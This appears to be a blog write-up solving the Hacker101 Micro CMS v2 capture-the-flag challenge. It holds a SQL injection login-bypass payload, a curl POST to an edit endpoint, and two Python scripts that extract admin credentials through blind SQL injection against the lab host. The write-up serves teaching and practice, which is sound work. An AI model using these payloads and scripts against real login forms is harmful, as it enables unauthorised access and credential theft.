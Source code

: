 ```yaml
---
layout: post
title:  "Micro CMS v2 (Hacker101 CTF Writeup)"
date:   2020-08-14 8:00:00 +0100
categories: writeup Hacker101 
---
```

# *Introduction*
This CTF Challenge is part of Hacker101's Training Platform. The Micro CMS v2 Challenge is a Web security challenge in where we are put in front of a site and we have to find 3 flags. This is how it looks by visiting it:

>>![ls](/assets/MicroCMS.png)

Very basic right? That said, let's get started!

# *Flag 1*

>> Hint: Regular users can only see public pages

As the Hint says, we probably need to get admin access. By Navigating to `Create a new Page` we are welcomed with a login form:

![LoginForm](/assets/LogInForm.png)

Default Credentials like admin:admin or admin:password won't work so let's try [SQLi](https://portswigger.net/web-security/sql-injection). By just inserting a single quotation mark `'` in the username field and clicking `Log In` We get the following error:

```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```

Awsome! From here we can see the query that is executed and it's something like `SELECT password FROM admins WHERE username='INPUT'` Where the `INPUT` part is whatever we insert in the username field. Probably the query is used to get a Password for a specific user and then comparing it to whatever we insert in the password field. Let's try to craft a query that will return `hello` as password no matter what we have in the username field. After some trials I injected this: `user' UNION SELECT 'hello'#`. The final query will look something like:
 `SELECT password FROM admins WHERE username='user' UNION SELECT 'hello'#'`. By using the above injection in the username field and the word `hello` in the password...

![Logged](/assets/LoggedInCMS.png)

Nice! By navigating back we get a new `Private Page` that will expose the first flag.

# *Flag 2*

>> Hint: What actions could you perform as a regular user on the last level, which you can't now?

Honestly, I didn't solve this one. I found that this one was a little guessy. However the solution was hidden in the second hint:

>> Hint: Just because request fails with one method doesn't mean it will fail with a different method

So the point here is to change the request method from a simple `GET` to a `POST`. I simply used [curl](https://curl.haxx.se/) to archieve this. The command is `curl -X POST endpoint`. I tested different endpoints on the target and at the end I got the flag by POSTing at `http://34.94.3.143/cd8c2e4456/page/edit/1`.

![Curl](/assets/CURL_posting.png)


# *Flag 3*

>> Hint: Credentials are secret, flags are secret. Coincidence?

By reading the hint I got that we have to get the admin's username and password and not just logging in using a bypass like for Flag 1. I thought a bit about this, and finally I came up with a possible approach. Basically when inserting the right password in the login form we obviously log in, otherwise we get an `Wrong Password` Response. So we have a way to ask boolean questions(with answer yes or no) to the database. This "Questions" will be of the form `Does the username start with 'a'?`, `Does the password start with 'ch'?`. By running muliple queries we can get the complete username and the complete password. So how do we do this? We know from the error log that a table `admins` exist. I used the following query : `' union select case when (select substring(username,1,1) ='a') then 'right' else 'wrong' end from admins#`. Let's break this down a bit:
```
' # The first question mark breaks the original query
union select # Union the original query result(that will be empty) with what comes next
case # start a conditional SQL query
when (select substring(username,1,1)='a') # check if the first character of the username field is 'a'
then 'right'  #if it is then return the word 'right'
else 'wrong' # else return the word 'wrong'
end # end the conditional SQL query
from admins # #The username field is in the admins table end the '#' comments out the rest of the original query
```
So remember how we set the password to `hello` while solving Flag 1? Here we are basically doing the same, setting the password to `right` or `wrong` based on the result of the query `select substring(username,1,1)='a'`. Obviously we have to run multiple queries and everytime increment the checked substring size. So let's automate this! I Wrote the following python code.
For the username:
{% highlight python %}
import requests
import string
url="http://34.94.3.143/9e734fe631/login"
username=''
letters=string.ascii_lowercase+string.ascii_uppercase
c=1

while True:
    for i in letters:
        testing=username+i
        data={
            'username':"' union select case when (select substring(username,1,"+str(c)+") ='"+testing+"') then 'right' else 'wrong' end from admins#",
            'password':'right'


        }
        res = requests.post(url,data)
        #print(data)
        #print(res.text)
        if not "Invalid password" in res.text:
            username=username+i
            c+=1
            print(username)
            break
{% endhighlight %}

By running the above code, It takes about 30 seconds to split out the entire username. Note that the program won't stop automatically so we have to escape with `CTRL+C`:
![Getting Username](/assets/GettingUsername_CMS.png)

For the password the code looks very similar:
{% highlight python %}
import requests
import string
url="http://34.94.3.143/9e734fe631/login"
password=''
letters=string.ascii_lowercase+string.ascii_uppercase
c=1

while True:
    for i in letters:
        testing=password+i
        data={
            'username':"' union select case when (select substring(password,1,"+str(c)+") ='"+testing+"' where username='charity') then 'right' else 'wrong' end from admins#",
            'password':'right'


        }
        res = requests.post(url,data)
        #print(data)
        #print(res.text)
        if not "Invalid password" in res.text:
            password=password+i
            c+=1
            print(password)
            break
{% endhighlight %}

Note that here I added `where username='charity'` to the query to be sure that we get the password of the previously found user. However this isn't strictly neccessary because it seems that the admin user is only one. At the end the credentials where `username:charity` and `password:keira`.
By Logging in with the above credentials we immidiatly get the flag on screen! 
I think this last Flag was the hardest but I had a great time when I finally solved it. Stay tuned for more writeups!









